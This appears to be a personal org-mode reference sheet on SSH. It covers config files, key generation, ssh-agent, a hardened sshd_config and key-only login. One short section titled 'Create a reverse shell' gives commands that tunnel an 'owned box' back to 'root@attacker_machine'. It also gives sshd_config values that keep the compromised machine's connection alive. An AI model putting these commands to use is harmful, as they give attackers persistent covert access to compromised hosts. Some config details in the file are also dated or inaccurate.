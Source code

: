#+TAGS: ssh remote_access ssh-copy-id ssh-agent ssh-add ssh-keygen sshd


* ssh
* Files
/etc/ssh/ssh_config             - the config file for the ssh client
/etc/ssh/sshd_config            - the config file for the ssh daemon
  - DenyUsers  - this sets who can't login
  - AllowUsers - this sets who can login
  - PermitEmptyPasswords - user without a set password will be allowed to ssh in if set to "yes"
/home/user/.ssh/authorized_keys - this holds remote hosts public keys
/home/user/.ssh/known_hosts     - this file holds hashes for all known hosts, hosts that we have previously connected to and authorize that we trust them to be the correct machine.
/home/user/.ssh/id_rsa          - this is the default private key, it needs privs of 600
/home/user/.ssh/id_rsa.pub      - this is the public key and should have privs of 644
** /home/user/.ssh/config          - this is a way to save host configs
#+BEGIN_EXAMPLE
Host frank1
        HostName frank.myserver.com
    User user
    ServerAliveInterval 60
    serverAliveCountMax 10

Host frank2
        HostName 223.34.45.10
    User user
    ServerAliveInterval 60
    serverAliveCountMax 10
#+END_EXAMPLE
User - this is the user name to connect with
ServerAliveInterval - this option sends a packet to the server to keep the connection alive
serverAliveCountMax - this will allow 10 attempts of the "ServerAliveInterval" before bringing the tunnel down

* Cmds
- keychain  - this provides a fronted to ssh-agent and helps if you are using multiple keys
- ssh-xfer  - this provides an in channel download solution (but only from the remote machine)
*** ssh-copy-id
#+BEGIN_SRC sh
ssh-copy-id crito@192.168.0.5
#+END_SRC
You will be prompted for your password, if no ssh key configured
*** ssh-agent
To enable the ssh-agent
#+BEGIN_SRC sh
eval $(ssh-agent)
#+END_SRC

*** ssh-add
#+BEGIN_SRC sh
ssh-add ~/.ssh/git_eurus
#+END_SRC
*** ssh-keygen
*** ssh-copy-id
ssh-copy-id uses the SSH protocol to connect to the target host and upload the SSH user key. The command edits the authorized_keys file on the server. It creates the .ssh directory if it doesn't exist. It creates the authorized keys file if it doesn't exist. Effectively, ssh key copied to server.

It also checks if the key already exists on the server. Unless the -f option is given, each key is only added to the authorized keys file once.

It further ensures that the key files have appropriate permissions. Generally, the user's home directory or any file or directory containing keys files should not be writable by anyone else. Otherwise someone else could add new authorized keys for the user and gain access. Private key files should not be readable by anyone else.

* Description
* Usage
** ssh Key Generation
#+BEGIN_SRC sh
ssh-keygen
#+END_SRC
This will then prompt for a name for the new key

** Generate public key from private key
#+BEGIN_SRC sh
ssh-keygen -y -f .ssh/private_key > .ssh/private_key.public
#+END_SRC

** Secure Configuration
*** Network Options
Port 5000 - not usign the default port(22) can avoid common runs agains this port. Sometimes this is not a good idea due to certain application expecting the standard port, this should be considered.

AddressFamily inet - this only allows traffic over ipv4 not ipv6.

ListenAddress 192.168.1.0 - this will mean that the service will only listen on the local network 192.168.1.0, and not be accessable from the internet. ListenAddress 0.0.0.0 will allow the service to be accessed from all addresses.

Protocol 2 - this will only allow protocol 2 to be used, protcol 1 has known weaknesses that can allow exploitation of the service. 

X11Forwarding no - A prefered method for VNC is to tunnel it over ssh, this my be required for certain applications.

TCPKeepalive no - These are sent outside of the encrypted channel and can be spoofed, ClientAliveInterval is encrypted and is unspoofable so works as an alternative.

ClientAliveInterval 60 - secure alternative to TCPKeepalive.

ClientAliveCountMax 3 - The number of attempts that the sshd will illicit a response from the ssh client before disconnecting. Unresponsive ssh client will be disconnected after 3 minutes.

*** Key Configuration
HostKey /etc/ssh/ssh_host_rsa_key - these are the default host key locations
HostKey /etc/ssh/ssh_host_dsa_key

UsePrivilegeSeparation yes - this option splits up server processors in an attempt to prevent privilege escalation

PubkeyAuthentication yes - Use public key authentication for access. Using this option in conjunction with PasswordAuthentication no, means only uses with correct key can access the server.

AuthorizedKeysFile %h/.ssh/authorized_keys - this is the location that remote hosts public keys are kept who will have access.

*** Authentication

AllowUsers user_one user_two - White list the users that can login to the server, this is a space seperated list.

LoginGraceTime 60 - this provides a 60 second window to login to the system when prompted

PermitRootLogin no - Disable root logins completely, not save practice to be login to a server as root, use sudo or wheel group once logged in.

StrictModes yes - this forces the correct permissions of key files, must not be writable by anyone but the owner.

IgnoreRhosts yes - Ignore Rhosts authentication for .rhosts and .shorts files in RhostsRSAAuthentication or HostbasedAuthentication /etc/hosts.equiv is still used if the the HostBasedAuthentication option is not disabled.

HostBasedAuthentication no - Decides if rhosts or /etc/hosts.equiv and a public key is are allowed (host-based authentication.

IgnoreUserKnownHosts yes - This determines if the ~/.ssh/known_hosts file is to be ignored. When accessing multiple boxes on the same ip.

PermitEmptyPasswords no - Password is required for access. In this configuration a key is required.

ChallengeResponseAuthentication no - This is not required as wee aren't using login or password authentication.

PasswordAuthentication no - With this disabled a key is required to login to the server.

UsePAM no - not needed as we aren't using password authentication.

UseLogin no - as priviliege seperation is used login isn't required.

SyslogFacility AUTH - log sshd messages to the AUTH syslog facility, which stores its messages in /var/log/auth.log 
#+BEGIN_SRC sh
grep sshd /var/log/auth.log
#+END_SRC

LogLevel INFO - Defines verbosity of login. Available options SILENT, QUIET, FATAL, ERROR, INFO, VERBOSE, DEBUG, DEBUG2 and DEBUG3. INFO is default

PrintLastLog yes - When user logs in print the last login time. Good option for unauthorized access analysis.

MaxAuthTries 2 - This is the number of attemps that can be tried per connection. Failures are logged after half the number is reached.

Banner /etc/issue.net - this is the banner that greets a user at login

*** configuration
#+BEGIN_EXAMPLE
# user modified sshd_config
# See the sshd(8) manpage for details

#### Networking options ####

# Listen on a non-standard port > 1024
Port 50000

# Restrict to IPv4. inet = IPv4, inet6 = IPv6, any = both 
AddressFamily inet

# Listen only on the internal network address
ListenAddress 192.168.1.0

# Only use protocol version 2
Protocol 2

# Disable XForwarding unless you need it
X11Forwarding no

# Disable TCPKeepAlive and use ClientAliveInterval instead to prevent TCP Spoofing attacks
TCPKeepAlive no
ClientAliveInterval 600
ClientAliveCountMax 3

#### Networking options ####


#### Key Configuration ####

# HostKeys for protocol version 2
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_dsa_key

#Privilege Separation is turned on for security
UsePrivilegeSeparation yes

# Use public key authentication
PubkeyAuthentication yes
AuthorizedKeysFile      %h/.ssh/authorized_keys

# Disable black listed key usage (update your keys!)
PermitBlacklistedKeys no

#### Key Configuration ####


#### Authentication ####

# Whitelist allowed users
AllowUsers user1 user2

# one minute to enter your key passphrase
LoginGraceTime 60

# No root login
PermitRootLogin no

# Force permissions checks on keyfiles and directories
StrictModes yes

# Don't read the user's ~/.rhosts and ~/.shosts files
IgnoreRhosts yes

# similar for protocol version 2
HostbasedAuthentication no

# Don't trust ~/.ssh/known_hosts for RhostsRSAAuthentication
IgnoreUserKnownHosts yes

# To enable empty passwords, change to yes (NOT RECOMMENDED)
PermitEmptyPasswords no

# Disable challenge and response auth. Unessisary when using keys
ChallengeResponseAuthentication no

# Disable the use of passwords completly, only use public/private keys
PasswordAuthentication no

# Using keys, no need for PAM. Also allows SSHD to be run as a non-root user
UsePAM no

# Don't use login(1)
UseLogin no

#### Authentication ####


#### Misc ####

# Logging
SyslogFacility AUTH
LogLevel INFO

# Print the last time the user logged in
PrintLastLog yes

MaxAuthTries 2

MaxStartups 10:30:60

# Display login banner
Banner /etc/issue.net

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

Subsystem sftp /usr/lib/openssh/sftp-server

#### Misc ####
#+END_EXAMPLE

** Copy new public key to remote server
- this will assume that you are connecting to a user with the same username as you
#+BEGIN_SRC sh
ssh-copy-id 78.87.56.34
#+END_SRC

- here we are specifiying which user we would like to sort the key under
#+BEGIN_SRC sh
ssh-copy-id frank@78.87.56.34
#+END_SRC

** ssh-agent
- Using ssh-agent with multiple keys can cause problems when login into many servers.
  - Each key is considered an attempt, so if a limit is set then you can end up locked out.

- If GDM is used ssh-agent is started automatically
  - to start automatically with other desktop managers
    ~/.xsession
    #+BEGIN_EXAMPLE
    ssh-agent gnome-session
    #+END_EXAMPLE
    substituting gnome with the window manger in use
    
- keychain
  - this is a front-end to ssh-agent
  - to have this start on login
    ~/.bash_profile
    #+BEGIN_EXAMPLE
    #!/bin/bash
    /usr/bin/keychain ~/.ssh/id_rsa ~/.ssh/id_dsa ~/.ssh/root_key > /dev/null
    source ~/.keychain/hostname-sh
    #+END_EXAMPLE
    hostname should correspond with the machines hostname

*** Using ssh-agent
#+BEGIN_SRC sh
eval $(ssh-agent)
ssh-add .ssh/id_rsa
#+END_SRC
If this key has a passphrase you will be challenged. 

- unload the key
#+BEGIN_SRC sh
ssh-add -d .ssh/id_rsa
#+END_SRC

- remove all keys/identities
#+BEGIN_SRC sh
ssh-add -D
#+END_SRC

- add key/identity
#+BEGIN_SRC sh
ssh-add .ssh/id_rsa
#+END_SRC

- Check what identities are currently set
#+BEGIN_SRC sh
ssh-add -l
#+END_SRC

*** Setting up ssh-agent as a sysd service
#+BEGIN_EXAMPLE
[Unit]
Description=SSH key agent

[Service]
Type=forking
Environment=SSH_AUTH_SOCK=%t/ssh-agent.socket
ExecStart=/usr/bin/ssh-agent -a $SSH_AUTH_SOCK

[Install]
WantedBy=default.target
#+END_EXAMPLE

- adding to zshrc
#+BEGIN_EXAMPLE
export SSH_AUTH_SOCK="$XDG_RUNTIME_DIR/ssh-agent.socket"
#+END_EXAMPLE

** Changing SSH port

vi /etc/ssh/sshd\_config

change port to 22 (or any other number) or add another line to add
another port

service sshd reload
** Disable root login
#+BEGIN_EXAMPLE
PermitRootLogin no
#+END_EXAMPLE
** Only allow ssh protocol v2
#+BEGIN_EXAMPLE
Protocol 2
#+END_EXAMPLE
** Create a reverse shell
- this would only provide one step away from the target machine
#+BEGIN_SRC sh
ssh -R 1337:localhost:22 root@attacker_machine
#+END_SRC
the cmd connects the owned box to the attacker's machine using port 1337

- using a machine between attacker and target
#+BEGIN_SRC sh
ssh -L 31337:localhost:1337 -f -N -g root@attacker_machine
#+END_SRC
now the the attacker connects from another machine to 31337 and is connected to the owned machine

- the owned machine would quickly timeout if the sshd_config hasn't been edited
#+BEGIN_EXAMPLE
TCPKeepAlive yes
ClientAliveInterval 30
ClientAliveCountMax 99999
#+END_EXAMPLE

** Execute cmds on remote machine
#+BEGIN_SRC sh
ssh user@54.165.122.155 ls
#+END_SRC
this will return the ls of the users home directory, this can be handy for executing a script without connecting

** Kerberos
- these need to set in /etc/ssh/sshd_config
#+BEGIN_EXAMPLE
KerberosAuthentication yes
KerberosOrLocalPasswd yes
GSSAPIAuthentication yes

#+END_EXAMPLE
** Enable key only auth
/etc/ssh/sshd_config
- this will allow only key auth, no password auth
#+BEGIN_EXAMPLE
PasswordAuthentication no
PubkeyAuthentication yes # the default is yes if commented out
AuthorizedKeysFile .ssh/authorized_keys
#+END_EXAMPLE
this is the only variable that needs to be changed

** Configure Key-Based Authentication

+ On Client
- install the required packages
RHEL7
#+BEGIN_SRC sh
yum install openssl
#+END_SRC
RHEL6
#+BEGIN_SRC sh
yum install openssl-server
#+END_SRC

- generate ssh key
#+BEGIN_SRC sh
ssh-keygen
#+END_SRC
this will prompt you for a location and passphrase

- copy ssh key to remote server
#+BEGIN_SRC sh
ssh-copy-id user@alickmitchell2.mylabserver.com
#+END_SRC
you will be prompted for user's password, then will copy the file to ~/.ssh/ on the remote server

+ On Server
/etc/ssh/sshd_config
- this will allow only key auth, no password auth
#+BEGIN_EXAMPLE
PasswordAuthentication no
PubkeyAuthentication yes # the default is yes if commented out
AuthorizedKeysFile .ssh/authorized_keys
#+END_EXAMPLE
this is the only variable that needs to be changed

- reload the service
#+BEGIN_SRC sh
systemctl reload sshd
#+END_SRC

** Setting the Banner
- edit /etc/issue.net
#+BEGIN_EXAMPLE
This is the sshd banner
#+END_EXAMPLE

- to enalbe edit the sshd_config
/etc/ssh/sshd_config
#+BEGIN_EXAMPLE
Banner /etc/issue.net
#+END_EXAMPLE
on may distros this disabled by default

- for it to take effect the service needs to be restarted
#+BEGIN_SRC sh
systemctl restart sshd
#+END_SRC

** SELinux
- when you will have to run the following cmd to allow ssh access with keys
#+BEGIN_SRC sh
restorecon -R -v /home/user/.ssh
#+END_SRC
otherwise the password will continue to be asked for

** X Forwarding
   
- there is no requirement for an X-server on the server-side (no desktop need to be installed)

* Lecture
* Tutorial
** Linux Academy - Server Application Requires a Secure SSH connection
Guide: [[file://home/crito/Documents/Linux/Labs/secure-ssh-lab.pdf][SSH connection]] 

* Books
* Links
[[https://www.slac.stanford.edu/comp/unix/sshGSSAPI.html][Using SSH and GSSAPI Authentication]]
